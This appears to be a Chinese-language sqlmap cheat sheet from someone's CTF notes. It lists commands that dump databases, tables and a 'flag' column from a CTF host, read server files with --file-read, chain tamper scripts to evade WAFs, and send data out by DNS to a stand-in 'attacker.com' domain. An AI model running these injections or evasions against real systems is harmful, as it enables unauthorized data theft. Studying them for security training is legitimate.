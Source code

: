 [SQLMap 命令详解及使用操作](https://blog.csdn.net/yinghua1234/article/details/105999231?utm_source=app)

[tamper](https://securityonline.info/sqlmap-tamper-script-bypassing-waf/)

```sh
# POST: 将请求保存成3.txt
sqlmap  -r 3.txt --technique T --level 3 --tamper=space2comment
sqlmap  -r 3.txt --technique T --level 3 --tamper=space2comment -D injection -T admin --dump
sqlmap -u url --search -C "flag"
sqlmap -u url --file-read="/flag"

sqlmap -u http://可能注入的某个提交参数的url --cookie="这次提交的cookie"
sqlmap -u http://ctf5.shiyanbar.com/web/index_2.php?id=1 --tamper "space2comment.py" --current-db --batch # database
sqlmap -u http://ctf5.shiyanbar.com/web/index_2.php?id=1 --tamper "space2comment.py" -D web1 --tables     # tables
sqlmap -u http://ctf5.shiyanbar.com/web/index_2.php?id=1 --tamper "space2comment.py" -D web1 -T flag --columns # columns
sqlmap -u http://ctf5.shiyanbar.com/web/index_2.php?id=1 --tamper "space2comment.py" -D web1 -T flag -C flag --dump # dump data
```

--technique

指定 sqlmap 使用的检测技术，默认情况下会测试所有的方式。

Boolean-based blind, Error-based, Union query-based, Stacked queries(对文件系统、操作系统、注册表操作时，必须指定该方式), Time-based blind

| Params         | Description                                                                                                                                                                                               |
| -------------- | --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| --time-sec     | 延迟时间，时间盲注默认 5 秒                                                                                                                                                                               |
| --union-cols   | 联合查询时默认是 1-10 列，当 level=5 时会增加到测试 50 个字段数，可以使用此参数设置查询的字段数。                                                                                                         |
| --union-char   | 默认情况下 sqlmap 针对 UNION 查询的注入会使用 NULL 字符；有些情况下使用 NULL 字符会造成页面返回失败，而使用一个随机整数是成功的，可以使用--union-char 指定 UNION 查询的字符。                             |
| --dns-domain   | 攻击者控制了某 DNS 服务器，使用此功能可以提高数据查询的速度 如：--dns-domain="attacker.com"                                                                                                               |
| --second-order | 有些时候注入点输入的数据，返回的结果并不是当前页面，而是另外一个页面。使用此参数指定到哪个页面获取响应判断真假，--second-order 后面跟一个判断页面的 URL 地址。例如：--second-order="http://1.1.1.1/a.php" |

[SQLMap 中 tamper 的简介](https://blog.csdn.net/Litbai_zhang/article/details/99681398)

--tamper
```bash
# 普通tamper搭配方式:
tamper=apostrophemask,apostrophenullencode,base64encode,between,chardoubleencode,charencode,charunicodeencode,equaltolike,greatest,ifnull2ifisnull,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2plus,space2randomblank,unionalltounion,unmagicquotes
# 数据库为MSSQL的搭配方式:
tamper=between,charencode,charunicodeencode,equaltolike,greatest,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,sp_password,space2comment,space2dash,space2mssqlblank,space2mysqldash,space2plus,space2randomblank,unionalltounion,unmagicquotes
# 数据库为MySql的搭配方式:
tamper=between,bluecoat,charencode,charunicodeencode,concat2concatws,equaltolike,greatest,halfversionedmorekeywords,ifnull2ifisnull,modsecurityversioned,modsecurityzeroversioned,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2hash,space2morehash,space2mysqldash,space2plus,space2randomblank,unionalltounion,unmagicquotes,versionedkeywords,versionedmorekeywords,xforwardedfor
```

## level, risk
